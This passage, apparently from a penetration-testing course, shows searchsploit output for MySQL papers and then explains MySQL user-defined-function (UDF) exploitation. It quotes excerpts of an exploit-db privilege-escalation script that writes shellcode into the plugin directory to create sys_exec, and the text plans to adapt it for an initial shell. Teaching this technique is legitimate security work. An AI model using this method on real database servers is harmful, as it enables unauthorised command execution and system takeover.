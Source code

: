 ```bash
...
-------------------------------------- -----------------------------------------------
 Paper Title                          |  Path (/usr/share/exploitdb-papers
-------------------------------------- -----------------------------------------------
...
MySQL Session Hijacking over RFI      | docs/english/13708-mysql-session-hijacking-ove
MySQL UDF Exploitation                | docs/english/44139-mysql-udf-exploitation.pdf
MySQL: Secure Web Apps - SQL Injectio | papers/english/12945-mysql-secure-web-apps---s
Novel contributions to the field - Ho | docs/english/40143-novel-contributions-to-the-
...
----------------------------------------------------------- --------------------------
```

When searching for MySQL vulnerabilities, we have to change our approach a bit. This time we are not looking for an exact version number that might be vulnerable to an exploit since MariaDB and MySQL use different version numbers. Instead, we are trying to see if we can identify a pattern in publicly disclosed exploits that may indicate a type of attack we could use.

We notice that the words "UDF" and "User Defined" show up often. Let's take a look at a more recent UDF exploit found in /usr/share/exploitdb/exploits/linux/local/46249.py.

```bash
1  # Exploit Title: MySQL User-Defined (Linux) x32 / x86_64 sys_exec function local privilege escalation exploit
2  # Date: 24/01/2019
3 ...
19  References:
20  https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html
21  https://www.exploit-db.com/exploits/1518
22  https://www.exploit-db.com/papers/44139/ - MySQL UDF Exploitation by Osanda Malith Jayathissa (@OsandaMalith)
```

The exploit begins by referencing other research into UDF exploitation including a paper written on the subject.

Reviewing this paper teaches us that a User Defined Function (UDF) is similar to a custom plugin for MySQL. It allows database administrators to create custom repeatable functions to accomplish specific objectives. Conveniently for us, UDFs are written in C or C++ and can run almost any code we want, including system commands.

Researchers have discovered how to use standard MySQL (and MariaDB) functionality to create these plugins in ways that can be used to exploit systems. This specific exploit discusses using UDFs as ways to escalate privileges on a host. However, we should be able to use the same principle to get an initial shell. Some modifications will be required but before we start changing anything, let's take a look at the code.

```bash
40  shellcode_x32 = "7f454c4601010100000000000000000...";
41  shellcode_x64 = "7f454c4602010100000000000000000...";
42
43  shellcode = shellcode_x32
44  if (platform.architecture()[0] == '64bit'):
45   shellcode = shellcode_x64
...
71  cmd='mysql -u root -p\'' + password + '\' -e "select @@plugin_dir \G"'
72  plugin_str = subprocess.check_output(cmd, shell=True)
73  plugin_dir = re.search('@plugin_dir: (\S*)', plugin_str)
74  res = bool(plugin_dir)
...
91  print "Trying to create a udf library...";
92  os.system('mysql -u root -p\'' + password + '\' -e "select binary 0x' + shellcode + ' into dumpfile \'%s\' \G"' % udf_outfile)
93  res = os.path.isfile(udf_outfile)
...
99  print "UDF library crated successfully: %s" % udf_outfile;
100  print "Trying to create sys_exec..."
```